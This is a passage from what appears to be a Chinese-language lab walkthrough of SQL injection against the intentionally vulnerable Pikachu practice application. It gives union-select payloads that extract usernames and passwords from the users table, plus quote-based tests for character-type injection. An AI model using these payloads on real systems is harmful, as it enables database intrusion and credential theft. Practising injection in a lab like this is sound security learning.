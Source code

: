 8.获取用户名
`id=-1 union select (select group_concat(username) from pikachu.users),2`

![20200304215626.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304215626.png)

9.获取用户密码`id=-1 union select (select group_concat(password) from pikachu.users),2`

![5.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/5.png)

### 三、字符型注入

1.输入`1'`报错，输入`1'#`页面返回正常，可判断为字符型注入
